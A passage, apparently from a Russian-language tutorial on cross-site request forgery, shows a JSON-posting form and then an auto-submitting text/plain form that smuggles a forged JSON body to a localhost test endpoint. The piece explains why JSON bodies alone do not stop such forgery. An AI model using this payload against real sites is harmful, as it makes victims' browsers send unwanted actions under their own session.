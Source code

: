 ```php
<p id="state"></p>
<form name="send">
    <input name="message" placeholder="message"><br>
    <input name="receiver" placeholder="receiver"><br>
    <button>Send</button>
</form>
<script>
    var form = document.forms.namedItem('send');
    var state = document.getElementById('state');
    form.addEventListener('submit', e => {
        e.preventDefault();
        var message = form.querySelector('input[name="message"]');
        var receiver = form.querySelector('input[name="receiver"]');
        var data = {
            message: message.value,
            receiver: receiver.value
        };
        var req = new XMLHttpRequest();
        req.open('POST', '/form.php');
        req.setRequestHeader('Content-Type', 'application/json');
        req.addEventListener('readystatechange', e => {
            if (req.readyState !== req.DONE) {
                return;
            }
            if (req.status === 200) {
                state.innerHTML = `Send ${message.value} to ${receiver.value}`;
                message.value = '';
                receiver.value = '';
            }
        });
        req.send(JSON.stringify(data));
    });
</script>
```

## Опасность не уходит

Усложнили клиент, хотя если всё это обильно полить каким-нибудь фреймворком, то получится вполне хорошо. Однако! Есть тут стандарт https://www.w3.org/TR/html-json-forms/, по которому надежда на то, что json исключительно прерогатива xhr может не оправдаться. Он, конечно, отменён, но кто может ручаться, что завтра его не вернут? Более того, если не проверять Content-Type, то можно нарваться на такую ситуацию: http://pentestmonkey.net/blog/csrf-xml-post-request. Модифицируем нашего зловреда [#textPlain](https://github.com/vporoshok/csrf-test/tree/textPlain):
```html
<form id="form" method="post" action="http://localhost:4000/form.php" enctype="text/plain">
    <input name='{"equals":"' value='", "message": "SPAM", "receiver": "bob@mail.com"}'>
</form>
<script>
    var form = document.getElementById('form');
    form.submit();
</script>
```
